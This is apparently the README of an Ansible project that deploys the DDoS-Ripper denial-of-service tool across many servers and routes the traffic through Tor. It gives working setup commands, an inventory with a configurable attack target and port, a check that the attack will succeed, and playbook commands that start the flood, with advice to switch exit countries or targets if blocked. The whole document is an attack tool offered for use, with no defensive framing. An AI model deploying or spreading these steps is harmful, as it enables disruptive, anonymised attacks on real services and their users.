 **Usage:**

# 1. Install python3 and Ansible
```
sudo apt install python3 python3-pip
sudo -H pip3 install --upgrade pip
pip3 install ansible==2.9.7
```

Create ansible config file:
```
mkdir -p /etc/ansible
vim /etc/ansible/ansible.cfg

$ cat /etc/ansible/ansible.cfg
[defaults]
host_key_checking = False
callback_whitelist = profile_tasks
timeout = 300
command_warnings = False
[inventory]
[privilege_escalation]
[paramiko_connection]
[ssh_connection]
ssh_args = -C -o ControlMaster=auto -o ControlPersist=600s -o UserKnownHostsFile=/dev/null
control_path = /tmp/ansible-ssh-%%h-%%p-%%r
pipelining = True
[persistent_connection]
connect_timeout = 300
[accelerate]
[selinux]
[colors]
[diff]
```

Clone git repo:
```
mkdir -p /opt/git
cd /opt/git
git clone https://github.com/deadmopozz/ddos-ripper-ansible.git
```

# 2. Prepare inventory /opt/git/ddos-ripper-ansible/inventory/hosts:

- add your hosts and vars as follow:
```
# Add hosts to this group
[all]
kozak1      ansible_host=192.168.0.2
kozak2      ansible_host=192.168.0.3
kozak3      ansible_host=192.168.0.4
kozak4      ansible_host=192.168.0.5


[all:vars]
# Default soft vars
git_repo=https://github.com/palahsu/DDoS-Ripper.git
git_dest=/tmp/ddos-ripper
soft=['tor', 'tor-geoipdb', 'proxychains', 'geoip-bin', 'python3', 'python3-pip']

# Ansible vars
ansible_ssh_private_key_file="/path/to/your/ssh_key" # !!! Configure path to your ssh key
ansible_user="username_with_sudo_permissions" # !!! Configure username with sudo permissions

# Tor vars
ExitNodes='ExitNodes {ru}' # Choose you exit nodes for tor proxy, syntax:  ExitNodes {ru},{us}

# Systemd unit vars
MemoryHigh=450M # Memory soft limit for systemd unit
MemoryMax=550M # Memory hard limit for systemd unit, unit will fail in case it will use more memory then configured value
CPUQuota=85% # CPU limit for unit

# Target vars
target=127.0.0.1 # !!! configure target for atack, it could be IP address or DNS name 
port=443 # !!! Configure port for atack
time=10000 

[group1]
kozak1
kozak2

[group2]
kozak3
kozak4
```

# 3. Before the atack you should check the connection to target (torsocks telnet [target] [port]):
If you see the output below, then the atack will be successful
```
# torsocks telnet google.com 443
Trying 142.250.217.110...
Connected to 142.250.217.110.
Escape character is '^]'.
```

If the output will be like this:
```
# torsocks telnet google.com 443
Trying 142.250.217.110...
```
You should restart tor "systemctl restart tor" and try again.
If it doesn't help, try to change ExitNode to another country, and try again
If nothing helps - change the target

# 4. Run installation playbook and start the attack:

## You must have the same username and password or ssh key for each server
## After playbook run has finished - attack has started, you can check logs /var/log/syslog for details
## If you want to change target you need to change the variables (Target vars) in /opt/git/ddos-ripper-ansible/inventory/hosts file

## - If you use username and password for ssh authentication (username should be configured in inventory file /opt/git/ddos-ripper-ansible/inventory/hosts):
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible-playbook -i ../../inventory/hosts initial-setup.yml -b -kK 
```

## - If you use ssh key for ssh authentication (username and path to ssh key file should be configured in inventory file /opt/git/ddos-ripper-ansible/inventory/hosts):
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible-playbook -i ../../inventory/hosts initial-setup.yml -b 
```


Useful commands:
```
Check IP:
ansible all -i ../../inventory/hosts -b -m shell -a "torsocks curl -s ifconfig.me"
Check Coutry:
ansible all -i ../../inventory/hosts -b -m shell -a "geoiplookup $(torsocks curl -s ifconfig.me)"
```
